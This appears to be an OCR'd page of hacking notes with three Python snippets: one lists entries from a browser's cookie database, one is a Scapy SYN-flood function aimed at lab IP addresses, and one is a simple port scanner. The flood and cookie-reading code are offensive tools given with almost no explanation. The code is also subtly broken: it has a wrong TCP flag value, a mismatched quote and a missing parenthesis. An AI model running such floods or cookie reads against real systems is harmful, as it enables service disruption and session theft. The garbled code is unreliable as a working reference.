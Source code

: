#### View table data

```python
import sqlite3
cs=sqlite3.connect('Cookies')
c=cs.cursor()
c.execute('SELECT host_key,name FROM cookies;')  # Get host_key and name field values from the cookies table
for row in c:
  print(row[1].ljust(16)+' '+row[0])
```

### Scapy

Using scapy to create a SYN flood

```python
from scapy.all import *
def flood (src,tgt):
  for port in range(1024,65536):
    send(IP(src=src,dst=tgt)/TCP(sport=port, dport=4444, flags="5"))
source='10.0.2.99"
target="10.0.2.8"
flood(source,target)
```

## Scripts

### Port Scanner

```python
#!/bin/python
import sys
import socket
from datetime import datetime
# Define our target
if len(sys.argv) == 2:
    target = socket.gethostbyname(sys.argv[1])  # Translate hostname to IPv4
else:
    print("Invalid amount of arguments.")
    print("Syntax: python3 scanner.py <ip>"
# Add pretty banner
print("-" * 50)
print("Scanning target " + target)
print("Time started: " + str(datetime.now()))
print("-" * 50)
try:
    for port in range(21,88):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        socket.setdefaulttimeout(1)
        result = s.connect_ex((target,port))  # Returns an error indicator
        if result == 0:
            print(f"Port {port} is open.")
        s.close()
except KeyboardInterrupt:
    print("\nExiting program.")
    sys.exit()
except socket.gaierror:
    print("Hostname could not be resolved.")
    sys.exit()
except socket.error:
    print("Could not connect to server.")
    sys.exit()
```
